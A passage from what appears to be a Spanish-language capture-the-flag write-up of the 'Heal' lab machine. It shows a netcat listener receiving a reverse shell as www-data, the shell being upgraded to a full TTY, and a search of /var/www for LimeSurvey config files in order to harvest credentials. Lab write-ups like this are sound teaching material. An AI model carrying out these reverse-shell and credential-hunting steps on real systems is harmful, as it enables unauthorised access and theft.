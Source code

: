 
## Shell as `www-data`

Recibiremos la conexión al cabo de unos segundos con el usuario `www-data`

~~~ bash
nc -lvnp 4444    
listening on [any] 4444 ...
connect to [10.10.15.7] from (UNKNOWN) [10.10.11.46] 38798
Linux heal 5.15.0-126-generic #136-Ubuntu SMP Wed Nov 6 10:38:22 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
 19:24:21 up  7:38,  0 users,  load average: 0.02, 0.02, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
~~~


## TTY Treatment

Haremos un tratamiento de la shell para poder operar de forma más cómoda, como poder hacer `Ctrl + C` sin que se vaya al carajo la shell

~~~ bash
$ script /dev/null -c bash 
Script started, output log file is '/dev/null'.
www-data@heal:/$ ^Z
[1]  + 31122 suspended  nc -lvnp 4444
root@parrot content # stty raw -echo; fg
[1]  + 31122 continued  nc -lvnp 4444
                                     reset xterm
~~~

Finalmente cambiaremos el valor de la variable `TERM` para poder limpiar la pantalla con `Ctrl + L` y ajustaremos las proporciones de la terminal

~~~ bash
www-data@heal:/$ export TERM=xterm
www-data@heal:/$ stty rows 44 columns 184
~~~


## Credentials Leakage

Buscaremos archivos de configuración de `LimeSurvey` dentro del directorio `/var/www` 

~~~ bash
www-data@heal:/$ find /var/www -name "config" 2>/dev/null

/var/www/limesurvey/vendor/tecnickcom/tcpdf/examples/config
/var/www/limesurvey/vendor/tecnickcom/tcpdf/config
/var/www/limesurvey/vendor/vintagesucks/twig-renderer/test/protected/config
/var/www/limesurvey/vendor/yiisoft/yii/framework/cli/views/webapp/protected/config
/var/www/limesurvey/vendor/yiisoft/yii/demos/hangman/protected/config
/var/www/limesurvey/vendor/yiisoft/yii/demos/blog/protected/config
/var/www/limesurvey/vendor/yiisoft/yii/demos/phonebook/protected/config
/var/www/limesurvey/assets/packages/ckeditor/skins/bootstrapck/scss/config
/var/www/limesurvey/application/config
/var/www/limesurvey/tmp/assets/96ea892d/skins/bootstrapck/scss/config
~~~
